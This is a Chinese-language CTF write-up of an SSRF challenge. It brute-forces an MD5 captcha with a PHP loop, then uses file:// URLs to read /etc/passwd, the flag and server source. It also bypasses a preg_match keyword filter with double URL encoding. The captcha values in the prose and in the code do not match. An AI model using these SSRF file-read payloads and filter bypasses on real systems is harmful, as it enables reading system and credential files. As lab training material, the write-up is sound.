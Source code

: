 Captcha的地方写着代码：substr(md5(captcha), -6, 6) == "974961"，很明显验证码的md5值的后六位要等于指定的数字。
    <html>
      <head>
          <?php
for ($i=0; $i < 1000000000; $i++) {
    $a = substr(md5($i), -6, 6);
    if ($a == "fc6943") {   //此处为==后面的内容
        echo $i;   //输出验证码
        break;
    }
}
?>
      </head>
    </html>


解决了验证码的问题后，我们可以试着通过SSRF中URL伪协议file://来访问服务器的文件，例如/etc/passwd
url=file:///etc/passwd&captcha=*****
接着试试能不能访问/flag文件
url=file:///flag&captcha=*****
再试试看能不能读网页的源代码
url=file:///var/www/html/index.php&captcha=*****
******************code************************
<?php
error_reporting(0);
session_start();
require_once "lib.php";
init();
 
$is_die = 0;
$is_post = 0;
$die_mess = '';
$url = '';
 
if (isset($_POST['url']) && isset($_POST['captcha']) && !empty($_POST['url']) && !empty($_POST['captcha']))
{
    $url = $_POST['url'];
    $captcha = $_POST['captcha'];
    $is_post = 1;
    if ( $captcha !== $_SESSION['answer'])
    {
        $die_mess = "wrong captcha";
        $is_die = 1;
    }
    if ( preg_match('/flag|proc|log/i', $url) )
    {
        $die_mess = "hacker";
        $is_die = 1;
    }
}

阅读源码，发现确实对flag进行了过滤 preg_match('/flag|proc|log/i', $url) ，那么就需要对preg_match函数进行绕过。
同时因为/i 表明不区分大小写，因此无法通过大小写绕过。试试URL编码，file:///%66%6c%61%67
url=file:///%66%6c%61%67&captcha=*****
一次不行进行二次编码：
url=file:///%25%36%36%25%36%63%25%36%31%25%36%37&captcha=*****
